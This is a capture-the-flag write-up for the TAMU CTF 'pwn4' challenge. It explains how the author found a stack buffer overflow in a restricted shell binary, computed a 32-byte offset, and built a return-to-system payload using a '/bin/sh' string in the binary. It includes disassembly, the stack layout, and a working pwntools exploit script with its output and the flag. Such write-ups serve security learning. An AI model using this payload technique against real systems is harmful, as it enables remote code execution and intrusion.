






# pwn4 #



## Running the binary ##

It seems that this "shell" is able to parse the numbers and the commands:
```
nc pwn.ctf.tamu.edu 4324
I am a reduced online shell
our options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> 3
/pwn

I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> exit
```

After sending a big string the binary crashes:
```
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Unkown Command

Segmentation fault
```
We got a segfault, lets check how we can exploit this binary ...

## Binary analysis ##

Looking at the different functions called when we select a command we started to see a pattern ...

```
; snippet from whoami
0x080485df      683b880408     push str.whoami             ; 0x804883b ; "whoami"
0x080485e4      e847feffff     call sym.imp.system

; snippet from ls
0x08048594      6830880408     push str.ls                 ; 0x8048830 ; "ls"
0x08048599      e892feffff     call sym.imp.system
```

First a string is pushed to the stack, and after that a call to system is executed with the first
value of the stack as an argument. We needed to find a way to divert the execution flow into a call
to system("/bin/sh").

The only problem that we had wass that we needed to find a pointer to the string "/bin/sh",
we can find this in locations like libc, environment variables and the binary itself. Since we
are not able to verify the first two options we checked the strings in the binary.



Luckily for us, as shown in the illustration above the orgas added a string for us in the binary,
and we can use the address 0x0804a038 as an argument for the call to system.

As stated before we were able to segfault the binary, indicating that we were able to corrupt
the stack we need to find the correct offset to overwrite the RET address after sending our
input.

We ran the binary in gdb and sent an input string of 64 bytes with a unique pattern ...



The offset to overwrite the first RET pointer was 32 bytes.

```
>>> cyclic_find(0x61616169)
32
```
We can now overwrite the bytes 33-36 with the value 0x08048430 (system address) and remembering
the C calling convention we need to arrange our stack as following:

```
stack
lower address
32 bytes [random data]
04 bytes [return to system]
04 bytes [fake return address]
04 bytes [arg1 of system]
higher address
```
We tested a buffer with this structure, and as shown below we were able to overwrite the RET
address with the address of system.



If we continue to step through the instructions we reach the RET instruction and as expected we
will return to the system function.



At this point our stack was setup to execute the system function with /bin/sh as the argument.



Our next return pointer is our fake 0x43434343 ('CCCC') address, if we want to be more careful we
can use the address of the exit function to avoid a crash after our shell has finished the execution.

## Getting the flag ##
We created the following script to get the flag from the CTF server ...

```python
from pwn import *

c = remote('pwn.ctf.tamu.edu', 4324)

print c.recv()

payload = "A"*32 + "\x30\x84\x04\x08" + "CCCC" + "\x38\xa0\x04\x08"

c.sendline(payload)

print c.recvline()
print c.recvline()

c.sendline('cat flag.txt')

print c.recvline()

c.close()
```
And after executing our script we were able to get the flag ...

```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4324: Done
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input>
Unkown Command


gigem{b4ck_70_7h3_l1br4ry}

[*] Closed connection to pwn.ctf.tamu.edu port 4324
```


